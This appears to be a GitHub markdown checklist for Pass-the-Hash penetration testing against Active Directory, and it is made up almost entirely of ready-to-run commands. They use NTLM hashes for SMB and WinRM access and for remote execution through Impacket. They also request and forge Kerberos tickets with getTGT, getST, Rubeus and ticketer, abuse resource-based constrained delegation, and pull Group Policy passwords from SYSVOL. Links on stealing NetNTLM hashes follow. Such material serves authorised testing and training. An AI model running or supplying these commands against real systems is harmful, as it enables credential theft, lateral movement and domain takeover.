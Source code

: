 # Pass-the-Hash (PTH) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After performing Pass-the-Hash techniques, I realistically expect to:

- [ ] Access remote systems using only NTLM hashes (no password needed)
- [ ] Enumerate SMB shares or use authenticated WinRM shells
- [ ] Interact with services like LDAP, SMB, WinRM, and RPC using hashes
- [ ] Forge TGT or ST tickets with RC4 hash for Kerberos abuse
- [ ] Exploit delegation and impersonation with forged tickets
- [ ] Conduct lateral movement or privilege escalation with ticket injection

---

## ✅ Pass-the-Hash Pentest Checklist

- [ ] **SMB Enumeration using NTLM Hash**
  - List shares using the user's hash
    ```
    smbclient -L \\10.10.10.1 -U test.local/john --pw-nt-hash <NTLM_HASH>
    ```

- [ ] **WinRM Shell with NTLM Hash**
  - Authenticate to WinRM with hash
    ```
    evil-winrm -i 10.10.10.1 -u john -H <NTLM_HASH>
    ```

- [ ] **Remote Command Execution using Impacket**
  - Execute command over SMB using NTLM hash
    ```
    python3 atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH> test.local/john@10.10.10.1 whoami
    ```

- [ ] **Request TGT Ticket (getTGT.py)**
  - Request TGT using NTLM hash
    ```
    python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :<NTLM_HASH>
    ```

- [ ] **Request ST with Impersonation (getST.py)**
  - Get service ticket impersonating another user
    ```
    python3 getST.py -hashes :<NTLM_HASH> -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john
    ```

- [ ] **Rubeus TGT Request with RC4**
  - Request and inject ticket
    ```
    Rubeus.exe asktgt /domain:test.local /user:john /rc4:<NTLM_HASH> /ptt
    ```

- [ ] **Forge Silver Ticket with ticketer.py**
  - Forge ST using SPN
    ```
    python3 ticketer.py -nthash <NTLM_HASH> -domain-sid <DOMAIN_SID> -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
    ```

- [ ] **Forge TGT Ticket with ticketer.py**
  - Forge TGT for authentication
    ```
    python3 ticketer.py -nthash <NTLM_HASH> -domain-sid <DOMAIN_SID> -domain test.local -dc-ip 10.10.10.1 john
    ```

- [ ] **RBCD (Resource-Based Constrained Delegation) Abuse**
  - Write delegation permissions using NTLM hash
    ```
    python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :<NTLM_HASH> test.local/john
    ```

- [ ] **Monitor LDAP Changes (Authenticated)**
  - Monitor changes to AD with credentials
    ```
    python3 ldapmonitor.py -u 'john' -d 'TEST.local' -p 'password123' --dc-ip 10.10.10.1
    ```

- [ ] **Extract Group Policy Passwords (GPP)**
  - Pull GPP cpassword from SYSVOL
    ```
    python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1
    ```

- [ ] **Find Uncommon SMB Shares**
  - Enumerate uncommon shares
    ```
    python3 FindUncommonShares.py -u 'john' -d 'TEST.local' -p 'password123' --dc-ip 10.10.10.1
    ```

---

## 📚 Reference – Stealing NTLM Hashes

- 🔗 https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/
- 🔗 https://r4j3sh.medium.com/offsec-vault-proving-grounds-practice-writeup-380915703a09

---
